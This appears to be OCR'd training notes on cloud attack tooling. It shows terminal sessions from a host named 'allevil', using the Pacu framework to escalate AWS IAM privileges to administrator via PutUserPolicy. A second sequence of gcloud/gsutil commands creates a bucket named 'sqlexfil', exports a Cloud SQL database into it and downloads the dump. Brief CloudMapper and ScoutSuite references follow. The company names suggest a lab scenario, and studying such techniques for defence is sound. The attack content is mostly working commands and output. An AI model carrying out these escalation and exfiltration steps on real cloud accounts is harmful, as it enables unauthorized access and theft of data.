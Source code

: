 Metasploit for AWS

```
root@allevil:~/pacu# ./cli.py
Pacu (jmerckle-falsimentis:No Keys Set) > import_keys jmerckle
Pacu (jmerckle-falsimentis:imported-jmerckle) > run iam__enum_permissions
Running module iam__enum_permissions...
Pacu (jmerckle-falsimentis:imported-jmerckle) > run iam__privesc_scan
Running module iam__privesc_scan...
[iam__privesc_scan] Escalation methods for current user:
[iam__privesc_scan] CONFIRMED: PutUserPolicy
[iam__privesc_scan] Attempting confirmed privilege escalation methods...
[iam__privesc_scan] Successfully added an inline policy named dnr9s7e846!
You should now have administrator permissions.
```

#### gcloud (like awsclli, not attack tools)

```
root@allevil# gcloud sql instances list  <-- LIST DB INSTANCES
fm-research MYSQL_8_0 us-east1-c db-custom-4-26624 34.138.195.165
- RUNNABLE
root@allevil# gcloud sql databases list -i fm-research  <-- LIST SCHEMES FOR THE INSTANCE
ai utf8 utf8_general_ci
root@allevil# gsutil mb gs://sqlexfil  <-- CREATE BUCKET FOR DOWNLOADING DB
Creating gs://sqlexfil/...
root@allevil# gsutil acl ch -u jmerckle@falsimentis.com:WRITE gs://sqlexfil  <-- GRANT THE CURRENT USER ACCESS TO THE BUCKET
Updated ACL on gs://sqlexfil/
root@allevil# gcloud sql export sql fm-research --database=ai  <-- EXPORT DB DUMP TO THE BUCKET
gs://sqlexfil/sqldump.gz
Exporting Cloud SQL instance...done.
Exported [https://sqladmin.googleapis.com/sql/v1beta4/projects/cryptic-
woods-298720/instances/fm-research] to [gs://sqlexfil/sqldump.gz].
root@allevil# gsutil cp gs://sqlexfil/sqldump.gz .  <-- DOWNLOAD THE DUMP FROM THE BUCKET
Copying gs://sqlexfil/sqldump.gz...
- [1 files][ 342.0 MiB/ 342.0 MiB]
```

#### CloudMapper for AWS

```
cloudmapper.py prepare --config config.json --account acctname
cloudmapper.py report --config config.json --account acctname
cloudmapper.py webserver
```


#### ScoutSuite for AWS, Azure, GCP

Scan vulns or misconfigured resources

# A: Tools
